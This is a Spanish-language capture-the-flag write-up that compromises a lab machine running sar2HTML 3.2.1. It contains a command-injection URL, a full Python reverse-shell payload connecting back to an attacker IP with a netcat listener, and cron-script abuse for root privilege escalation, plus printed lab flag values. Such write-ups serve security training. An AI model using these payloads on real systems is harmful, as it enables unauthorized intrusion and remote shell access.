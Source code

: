 `sudo nmap 192.168.238.35 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts`

![1](Images/1.png)

`nmap 192.168.238.35 -sCV -p22,80 -oN target`

![2](Images/2.png)

Ubuntu Default page en p80.

Antes de lanzar fuerza bruta de directorios, vamos a ver si tiene un robots.txt que pudiera arrojarnos información.

![3](Images/3.png)

Probamos sar2HTML tal y como aparece en /robots.txt

![4](Images/4.png)

Podemos ver que parece un conversor en sar2html (tal y como indica su nombre) en la versión 3.2.1. Si buscamos en searchsploit:

`searchsploit sar2html`

![5](Images/5.png)

Tenemos RCE.

Si observamos el 47204.txt, vemos unas intrucciones.

![6](Images/6.png)

Parece que podemos ejecutar comandos directamente:

`http://192.168.238.35/sar2HTML/index.php?plot=;id`

Acto seguido hacemos click en "Select Host" y podemos ver el output de nuestro comando. Para este caso concreto (id), podemos ver www-data:

![7](Images/7.png)

Vamos a intentar mandarnos una revshell con python: 

- Abrimos listener con netcat:

`nc -nlvp 4444`

![8](Images/8.png)

Enviamos:

`192.168.238.35/sar2HTML/index.php?plot=;export RHOST="192.168.45.180";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'`

![9](Images/9.png)

Estamos dentro como www-data.

En /home/local.txt encontramos la flag de usuario.

`whoami && ip addr && cat local.txt`

![10](Images/10.png)

valor local.txt: 59b123f0d7e88a5fea7c046f43bb0a36

# PRIVESC

`cat /etc/crontab`

![11](Images/11.png)

Cada 5 minutos se está ejecutando por el usuario root el siguiente script:

![12](Images/12.png)

Que a su vez ejecuta:

![13](Images/13.png)

Es decir, cada 5 minutos se ejecuta finally.sh, que a su vez ejecuta write.sh.

Si observamos los permisos de write.sh, vemos que www-data es owner y que también podemos modificar su contenido:

![14](Images/14.png)

Dado que podemos modificar el contenido de write.sh, las dos formas más rápidas para escalar privilegios son:
- Modificar el script para que nos envíe una reverse shell a nuestra máquina
- Otorgar privilegio SUID a la bash.

![15](Images/15.png)

Esperamos a que se ejecute por root y nos mande la revshell con privilegios.

![16](Images/16.png)

![17](Images/17.png)

Y comprobamos la vía de escalada de privilegios a través de SUID a la bash:

![18](Images/18.png)

En /root/root.txt encontramos la flag de root.

`whoami && ip addr && cat proof.txt`

![19](Images/19.png)

Valor proof.txt: de6c604c2a2778c9854f69067b5dd9b5
